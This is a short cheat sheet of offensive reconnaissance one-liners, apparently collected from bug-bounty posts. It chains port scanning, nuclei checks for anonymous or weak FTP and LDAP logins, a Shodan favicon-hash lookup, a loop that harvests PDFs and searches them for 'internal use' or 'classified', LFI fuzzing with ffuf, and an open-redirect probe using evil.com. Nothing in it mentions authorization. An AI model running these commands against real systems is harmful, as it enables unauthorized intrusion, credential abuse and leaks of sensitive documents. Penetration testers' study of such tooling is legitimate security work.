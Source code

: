 Try:
naabu -host <ip> -p - -Pn -o portscan | httpx -sc -td -server

Nuclei for weak FTP:
cat port-scanned-hosts.txt | grep -E ':21$' | awk -F: '{print $1}' | nuclei -nh -id ftp-anonymous-login,ftp-weak-credentials

Nuclei for weak/anonymous LDAP
cat port-scanned-hosts.txt | grep -E ':389$' | awk -F: '{print $1}' | nuclei -nh -id ldap-anonymous-login

**Shodan favicon hash**:
One-liner of favicon hash for shodan: python3 -c "import mmh3,requests,codecs;print(mmh3.hash(codecs.encode(requests.get('[URL]',verify=False).content,'base64')))" Replace URL with [http://target.com/favicon.ico](https://t.co/j1P2Dv0XlG) and use http.favicon.hash:<HASH>


Reading sensitive pdf files:
(httpx, gau and pdftotext have to be installed)
for i in `cat apex-domains.txt | gau --subs --threads 16 | grep -Ea '\.pdf' | httpx -silent -mc 200`; do if curl -s "$i" | pdftotext -q - - | grep -Eaiq 'internal use|classified'; then echo [$i](https://twitter.com/search?q=%24i&src=cashtag_click); fi; done

For LFI:
paramspider -d target.com -o urls.txt | \
  while read -r URL; do
    ffuf -u "${URL}" -c -w /root/FUZZDB/Seclists/Fuzzing/LFI/LFI-JHaddix.txt -ac
  done

For Open redirect:
gau target.com | grep -a -i '=https' | \
  qsreplace 'http://evil.com' | \
  while read -r host; do
    if curl -s -L "$host" -I | grep -q "evil.com"; then
      echo -e "$host \033[0;31mVulnerable\n"
    fi
  done

